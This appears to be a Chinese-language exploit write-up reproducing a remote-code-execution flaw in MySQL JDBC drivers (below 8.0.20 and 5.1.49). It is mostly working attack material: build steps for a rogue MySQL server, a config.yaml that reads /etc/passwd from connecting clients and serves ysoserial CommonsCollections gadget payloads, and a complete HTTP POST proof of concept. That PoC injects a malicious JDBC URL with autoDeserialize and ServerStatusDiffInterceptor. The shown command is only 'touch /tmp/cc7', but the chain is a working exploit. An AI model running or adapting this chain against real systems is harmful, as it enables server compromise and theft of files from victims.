 # jdbc RCE

## 漏洞描述

JDBC SHOW SESSION STATUS RCE

Version: 
  JDBC < 8.0.20
       < 5.1.49

## writeup

- 好用的 Mysql Rogue Server，本次复现使用此工具

```
https://github.com/rmb122/rogue_mysql_server
```

编译

```
go build main.go
```

下载 ysoserial-0.0.6-SNAPSHOT-all.jar 放到工具根目录，名字保持和config.yaml一致即可

- 配置 config.yaml

```
host: 0.0.0.0
port: 3306
version_string: "10.4.13-MariaDB-log"

file_list: ["/etc/passwd"]
save_path: ./loot
always_read: false

auth: true
users:
  - root: root
  - root: password

jdbc_exploit: true
always_exploit: true
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc6: ["java", "-jar", "ysoserial.jar", "CommonsCollections6", 'touch /tmp/cc6']
  cc7: ["java", "-jar", "ysoserial.jar", "CommonsCollections7", 'touch /tmp/cc7']
```

- 运行 ./main，等待jdbc连接

![](./1.png)

- POC

```
POST /test.jsp HTTP/1.1
Host: 10.68.56.56:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Content-Length: 221

jdbc=jdbc%3amysql%3a//10.68.56.56%3a3306/test%3fconnectionAttributes%3dt%3acc7%26autoDeserialize%3dtrue%26statementInterceptors%3dcom.mysql.jdbc.interceptors.ServerStatusDiffInterceptor%26user%3droot%26password%3dpassword
```

## 复现结果

- Mysql Rogue Server接受到连接并且成功send payload

![](./2.png)

- 成功执行 touch /tmp/cc7

![](./3.png)
